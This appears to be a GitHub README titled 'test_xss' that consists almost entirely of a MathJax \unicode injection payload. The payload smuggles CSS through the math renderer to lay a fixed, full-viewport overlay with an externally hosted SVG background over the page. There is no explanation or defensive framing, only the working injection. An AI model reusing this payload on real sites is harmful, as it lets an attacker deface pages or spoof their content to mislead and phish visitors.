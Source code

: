 # test_xss

<math-renderer class="js-display-math" style="display: block" data-static-url="https://github.githubassets.com/static" data-run-id="9947c7bc3d4427995a2ac98ba8bdb72e">$$\ce{$&amp;#x5C;unicode[goombafont; color:red; pointer-events: none; z-index: 100; position: fixed; top: 0; left: 0; height: 100vw; width: 100vw; background-repeat: no-repeat; background-size: contain; background-position: center top; background-image: url('https://github.com/fwrs/fwrs/blob/main/bg11.svg?raw=true');]{x0000}$}

```math
\ce{$&amp;#x5C;unicode[goombafont; color:red; pointer-events: none; z-index: 99; position: fixed; top: 0; left: 0; height: 180vh; width: 100vw; background: white;]{x0000}$}$$

</math-renderer>
